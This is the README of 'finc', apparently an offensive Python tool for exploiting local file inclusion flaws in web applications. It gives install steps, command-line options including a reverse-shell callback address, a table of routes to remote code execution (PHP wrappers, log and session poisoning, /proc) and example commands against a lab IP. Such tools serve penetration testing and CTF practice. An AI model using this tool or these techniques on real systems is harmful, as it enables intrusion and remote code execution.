

# finc

Exploitation of LFI written in python3
--



## Setup:

```bash
git clone https://github.com/DSimsek000/finc
cd finc
# recommended setup with virtualenv
python -m venv env
source env/bin/activate
pip install -r requirements.txt
```

## Syntax:

```
usage: finc [-h] [-u] [-d] [-c] [--header] [--proxy] [-x] [-v] [-vv] [-p] [-r] [-a] [-s] [--batch] [--redirect] [-o] [--module ...] [--level]

optional arguments:
    -h, --help       show this help message and exit
    -u , --url       target (format: "http://www.domain.com/lfi.php?file=FINC")
    -d , --data      data string to be sent through POST (format: "d1=FINC;d2=val2"))
    -c , --cookie    cookies (format: "c1=FINC;c2=val2"))
    --header         HTTP headers (format: "h1=FINC;h2=val2"))
    --proxy          set proxy to connect to the target (format: ip:port)
    -x , --method    HTTP method to use
    -v, --verbose    increase output verbosity
    -vv              debug
    -p , --param     select parameter to inject
    -r , --request   parse request from file
    -a , --address   address where reverse shell will connect back to (format: ip:port)
    -s , --http      port which will be used for serving http content
    --batch          automatic mode
    --redirect       follow redirects
    -o , --output    output folder (default cwd)
    --module ...     exploit only specific module
    --level          bypass level (1-3)
```

## Modes

```bash
Mode            Args                    Only PHP                        Description
-------------------------------------------------------------------------------------------------
all                                     no                      Try all modes (default)
rfi                                     no                      Remote file inclusion
data                                    yes                     Exploit php data:// wrapper
expect                                  yes                     Attempt RCE with expect://
filter                                  yes                     Attempt including files with php://filter
fuzz                                    no                      Attempt including files with filter-bypass
phpinfo         1                       yes                     Attempt RCE via phpinfo output. Takes url as argument
proc                                    no                      Attempt RCE with proc environment
log             4                       no                      Attempt RCE by poisoning log files: ftp(21), ssh(22), mysql(3306), pma("/phpmyadmin")
input                                   yes                     Attempt RCE with php://input
session                                 yes                     Attempt RCE via PHP Sessions
```

## Examples:

### Basic usage:

```bash
./finc.py -u 'http://10.10.134.151/lfi/lfi.php?file=FINC'

# Suffix payloads
./finc.py -u 'http://10.10.134.151/lfi/lfi.php?file=FINC.png'
```

### Parameter fuzzing:

```bash
./finc.py -u 'http://10.10.134.151/lfi/lfi.php'
```

### Load request from file and select parameter to inject:

```bash
./finc.py -r ~/request.txt -p 'file'
```

### Test specific module, e.g. for log poisoning:

```bash
./finc.py -r ~/request.txt -p 'file' --mode 'log'
```
